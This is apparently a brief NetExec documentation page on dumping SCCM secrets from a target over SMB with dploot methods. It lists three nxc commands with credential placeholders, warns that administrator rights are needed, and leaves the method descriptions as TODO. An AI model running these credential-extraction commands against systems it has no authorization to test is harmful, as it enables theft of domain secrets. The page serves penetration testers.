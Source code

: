 # 🆕 Dump SCCM

### Dump the SCCM from target using methods from dploot

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
2 methods are available:   
(default) 	wmi -  TODO
			disk - TODO (default)
```

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --sccm
nxc smb $TARGET -u $USER -p $PASSWORD --sccm disk
nxc smb $TARGET -u $USER -p $PASSWORD --sccm wmi
```
